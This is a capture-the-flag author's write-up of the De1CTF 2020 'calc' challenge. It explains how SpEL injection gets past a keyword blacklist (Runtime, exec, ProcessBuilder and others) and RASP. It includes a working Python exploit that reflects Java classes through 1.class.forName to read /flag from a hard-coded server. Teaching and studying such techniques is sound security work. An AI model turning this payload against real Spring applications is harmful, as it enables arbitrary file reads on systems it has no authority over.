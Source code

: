 # De1CTF 2020 calc

## 1. challenge info
Please calculate the content of file /flag http://106.52.164.141

## 2. design document
I found there are many difference between spel's grammar and java's grammar. For example, in spel we can use 1.class to get the class java.lang.Integer, but in java, we cannot.

I want to design a challenge to let ctfers discovery these difference and construct a more complicated reflection chain instead of the copy the payload from the internet directly.

So, i use two technology to forbide normal payloads.

1. blacklist filter:
    - T\s*\(
    - \#
    - new
    - java\.lang
    - Runtime
    - exec.*\(
    - getRuntime
    - ProcessBuilder
    - start
    - getClass
    - String
2. rasp

There may be 3 different way to solve:
1. bypass blacklist filter to use T or # or new keywords
2. bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag
3. close the rasp protection

## 3. exp

which scheme we want players to use is the scheme2:bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag. and i just give my exploit here. of course you can try other two schemes to solve this challenge (actually they are really feasible.)

```
# coding=utf-8
import commands
import base64
import requests

def get_flag(target):
    payload = '1.class.forName("java.nio.file.Files").getMethod("readAllLines", 1.class.forName("java.nio.file.Path")).invoke(null, 1.class.forName("java.nio.file.Paths").getMethod("get", 1.class.forName("java.net.URI")).invoke(null, 1.class.forName("java.net.URI").getMethod("create", 1.class.forName("java.la"+"ng.Str"+"ing")).invoke(null, "file:///flag")))'
    print("payload", payload)
    url = "http://{}/spel/calc".format(target)
    r = requests.get(url, params={"calc": payload})
    print(r.request.url)
    print(r.text)


if __name__ == '__main__':
    get_flag("106.52.164.141")
```

## 4. other writeups
I am ashamed that there are more detailed writeups written by players. you can find here:
https://ctftime.org/task/11491
